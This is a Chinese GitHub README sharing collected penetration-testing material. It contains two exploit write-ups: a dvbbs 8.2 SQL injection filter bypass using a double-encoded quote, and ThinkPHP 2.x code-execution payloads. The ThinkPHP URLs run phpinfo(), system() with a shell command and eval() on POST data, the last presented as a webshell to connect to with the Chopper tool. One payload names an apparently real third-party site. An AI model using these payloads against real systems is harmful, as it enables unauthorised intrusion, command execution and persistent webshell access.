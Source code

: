 # Permeable
## 很早以前收集的渗透资料，现在分享一下
## 点个小星星呗～


分享请注明来源～
https://github.com/w1109790800/Permeable


### 下面是几个文件的具体内容:
#### dvbbs 8.2 SQL注射漏洞分析
'''
[dvbbs 8.2 SQL注射漏洞分析 全文]漏洞公告:http://seclists.org/bugtraq/2008/May/0330.html

利用方式:一个典型的sql注射漏洞,按照公告里说的用

password=123123&codestr=71&CookieDate=2&userhidden=2&comeurl=index.asp&submit=%u7ACB%u5373%u767B%u5F55&ajaxPost=1&am 

漏洞分析:动网在asp领域也算一个比较元老的程序,这次在8.2新版里有一个低级的错误.漏洞代码在login.asp 118行左右 

...... 

username=trim(Dvbbs.CheckStr(request("username"))) 

If ajaxPro Then username = unescape(username) 

...... 

取得的username是先经过检查然后再unescape解码,导致用urlencode模式就可以饶过任何检查,和php的urldecode导致的注射很类似,譬如用%2527就可以提交’过去了. 


'''

#### ThinkPHP 漏洞
'''
2.0版本 /ThinkPHP/Lib/Think/Util/Dispatcher.class.php

2.1版本/ThinkPHP/Lib/Core/Dispatcher.class.php

搜索preg_replace 有一段替换使用了/e模式, 而且thinkphp底层没有提供参数的过滤， 这边就直接崩溃了。

测试代码

/index.php/Module/Action/Param/${@phpinfo()}

http://www.js.10086.cn/wxcs/ppo/YC/index.php/Public/MedInsurance/1/%7B$%7Bphpinfo()%7D%7D

/admin//index.php/public/login

去掉login 版本信息出来

最近thinkphp框架爆出了一个任意代码执行漏洞，其威胁程序相当的高,漏洞利用方法如下：

index.php/module/aciton/param1/${@print(THINK_VERSION)}index.php

/module/aciton/param1/${@function_all()}

其中function_all代表任何函数，

比如:index.php/module/aciton/param1/${@phpinfo()}

获取服务器的系统配置信息等。

index.php/module/action/param1/{${system($_GET['x'])}}?x=ls -al

列出网站文件列表

index.php/module/action/param1/{${eval($_POST[s])}}

直接执行一句话代码，用菜刀直接连接.

'''
